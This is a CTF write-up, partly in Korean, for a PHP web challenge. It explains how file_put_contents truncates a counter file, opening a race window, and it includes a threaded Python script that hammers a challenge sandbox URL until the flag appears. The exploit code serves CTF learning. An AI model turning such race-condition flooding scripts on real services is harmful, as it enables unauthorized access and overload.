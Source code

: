 # Count (Web)

-----
This challenge is simple race condition in php  
php has functions called `file_get_contents` and `file_put_contents`

`file_put_contents` function is accepts four args. (can $flags, $context args be omitted)  
```c
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
``` 
This function is identical to calling fopen(), fwrite() and fclose() successively to write data to a file.  
  
영어로 쓰다가 힘들어서 그냥 한국어로 쓴다.  
  
`file_put_contents`에서 `flags` 인자에 따로 값을 주지 않으면 기본 값은 `0`이다.  
[php 소스](https://github.com/php/php-src "php 소스")에서 `ext/standard/file.c`를 열어서 들여다보면 `flags`가 0일때 모드는 `wb` 모드이다.  
즉, 기존에 abc라는 파일이 있고 `file_put_contents`로 `file_put_contents('abc', 'asdf');` 이렇게 쓴다면  
기존 abc에 있던 내용은 다 지워지고 `asdf`라는 내용이 들어간다.  
  
이 문제는 이러한 특징을 이용한 레이스 컨디션 문제다.  

```php
$cnt = (int)file_get_contents('cnt-file');

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents('cnt-file', $cnt);

if($cnt == 1) {
    die($flag);
}
```
위 소스는 문제 소스중 일부분이다.  
`$cnt`의 초기값은 5다. (cnt-file에 있는 값이 5)  

새로고침할 때마다 `$cnt`가 1씩 증가하고 증가한 값을 cnt-file에 쓴다.  
그리고 증가하다가 30이 되면 10으로 초기화한다.  

위에서 설명한 `file_put_contents`의 특징을 모르는 상태라면 말도 안되는 코드라고 생각할 수 있다.  
하지만 이제 `file_put_contents`의 특징을 알기 때문에 `file_put_contents`로 값을 쓸 때 잠깐동안 지워지는 그 순간을 노리면 된다.  

exploit.py  

```python
import requests
import threading
# made by munsiwoo

def request(sandbox) :
	global response
	uri = 'http://game.withphp.com/ouya/sandbox/' + sandbox
	response = requests.get(uri).text

if __name__ == '__main__' :
	sandbox = '80e30ab2318c6a531cdde54c009a54ca/'
	response = ''

	while True :
		threading.Thread(target=request, args=(sandbox,)).start()
		if(response.find('Sunrin{') != -1) : # flag format is Sunrin{...}
			print(response)
			break

	print('End')

```
